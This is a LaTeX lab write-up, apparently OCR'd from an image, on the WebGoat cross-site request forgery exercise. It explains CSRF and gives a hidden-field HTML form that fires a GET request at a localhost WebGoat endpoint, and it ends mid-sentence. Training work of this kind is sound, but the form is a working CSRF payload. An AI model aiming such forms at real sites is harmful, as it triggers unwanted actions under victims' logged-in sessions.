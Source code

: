 \documentclass[a4paper, 10pt, titlepage]{article}
\begin{document}
\subsection{WebGoat - Cross-Site Request Forgeries}
Cross-site request forgery is a type of malicious exploit of a website where unauthorized commands are transmitted from a user that the website trusts. Unlike cross-site scripting (XSS), which exploits the trust a user has for a particular site, CSRF exploits the trust that a site has in a user’s browser. \\
CSRF commonly has the following characteristics:
\begin{itemize}
\item It involves sites that rely on a user’s identity.
\item It exploits the site’s trust in that identity.
\item It tricks the user’s browser into sending HTTP requests to a target site.
\item It involves HTTP requests that have side effects.
\end{itemize}
At risk are web applications that perform actions based on input from trusted and authenticated users without requiring the user to authorize the specific action. A user who is authenticated by a cookie saved in the user’s web browser could unknowingly send an HTTP request to a site that trusts the user and thereby causes an unwanted action. Forcing the victim to retrieve data doesn’t benefit an attacker because the attacker doesn’t receive the response, the victim does. As such, CSRF attacks target state-changing requests. \medskip\\
In exercise 3 the submit query open the URL:
\begin{verbatim}
/WebGoat/csrf/basic-get-flag?csrf=false&submit=Submit+Query
\end{verbatim}
To complete the exercise it is needed to trigger the form from an external source while logged in. That is made possible by creating a simple HTML file:
\begin{lstlisting}
	<html><body>
		<form action="http://localhost:8881/WebGoat/csrf/
				basic-get-flag" method="GET">
        	<input name="csrf" type="hidden" value="false">
        	<input name="submit" type="hidden" value="submit"> 
			<input name="submit" type="submit" value="submit">    
		</form>
	</body></html>
\end{lstlisting}
This file contains 3 input tags: the first 2 are the parameters in the original URL (and are hidden), the last one is for the new submit button, which triggers the call of the URL:
\end{document}
